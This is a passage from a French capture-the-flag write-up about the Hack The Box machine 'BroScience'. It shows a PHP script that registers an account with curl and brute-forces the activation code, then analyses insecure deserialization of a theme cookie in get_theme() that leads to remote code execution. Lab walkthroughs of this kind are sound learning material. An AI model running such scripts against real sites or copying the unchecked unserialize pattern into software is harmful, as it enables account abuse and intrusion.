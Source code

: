 ```php  
        shell_exec("curl -v -k -X POST https://broscience.htb/register.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=$user&email=$mail&password=$pass&password-confirm=$pass' >> register_log" ) ;
        print "    Done";
    }
  
    function main(){
        $start_time = time();
        register();
        $end_time = time();
        print_brute_force_acivation_code($start_time-100, $end_time+100);
    }
    main();
?>
```

Au bout de quelques secondes, le compte utilisateur nouvellement créé par le script ci-dessus sera activé à l'aide de l'utilitaire `ffuf`

### Vulnérabilité 2 : Exécution de code à distance
#### Analyse de la vulnérabilité
##### Absence de vérification dans la déserialisation d'un objet PHP contenu dans un cookie utilisateur

La partie authentifiée du site propose un système de thème. Le thème devant être affiché est paramétré à l'aide d'un cookie utilisateur. Ce cookie contient une version sérializée d'un objet PHP indiquant le thème à utiliser pour le rendu de la page.

Lorsqu'une page est affichée dans la section authentifiée du site, le cookie est désérialisé sans aucun mécanisme de vérification dans la fonction `get_theme()`  du fichier `/includes/utils.php`:

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

##### Classes utilisables pour réaliser une inclusion de fichier à distance (RFI)

La présence dans le code php des 2 classes suivantes rendent possible la création d'un fichier contenant du code php menant à une exécution de code arbitraire à distance
